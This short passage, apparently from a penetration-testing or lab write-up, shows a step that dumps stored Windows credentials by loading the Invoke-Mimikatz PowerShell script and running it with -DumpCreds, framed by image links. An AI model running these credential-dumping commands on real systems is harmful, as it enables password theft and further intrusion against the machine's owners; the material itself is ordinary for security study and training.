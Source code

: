 <br/>

Then dump password using Mimikatz powershell script:

```
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -DumpCreds
```

![picture 25](images/022aca0d2b40796410c37ef55ad0a7d8b11167c511765a0ec854e9fb6a95ed97.png)  
